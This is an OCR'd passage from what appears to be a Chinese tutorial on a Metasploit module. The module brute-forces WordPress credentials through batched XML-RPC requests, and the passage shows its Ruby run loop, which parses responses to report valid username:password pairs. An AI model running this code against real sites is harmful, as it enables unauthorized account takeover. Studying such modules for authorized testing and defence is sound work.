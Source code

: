 +   解析XML请求和响应

+   找到确切的正确凭证

+   检查是否被阻止

+   解析结果并找出哪个密码是正确的

```
 def run
    return if check_wpstatus.nil?

    usernames.each do |user|
      passfound = false

      print_status("Brute forcing user: #{user}")
      generate_xml(user).each do |xml|
        next if passfound == true

        send(xml)

        # Request Parser
        req_xml = Nokogiri::Slop xml
        # Response Parser
        res_xml = Nokogiri::Slop @res.to_s.scan(/<.*>/).join
        puts res_xml
        res_xml.search("methodResponse/params/param/value/array/data/value").each_with_index do |value, i|

          result =  value.at("struct/member/value/int")
          # If response error code doesn't not exist, then it's the correct credentials!
          if result.nil?
            user = req_xml.search("data/value/array/data")[i].value[0].text.strip
            pass = req_xml.search("data/value/array/data")[i].value[1].text.strip
            print_good("Credentials Found! #{user}:#{pass}")

            passfound = true
          end

        end

        unless user == usernames.last
          vprint_status('Sleeping for 2 seconds..')
          sleep 2
        end

      end 
    end 
  end 
```

#### 总结

```
##
# This module requires Metasploit: http://www.metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::HTTP::Wordpress

  def initialize(info = {})
```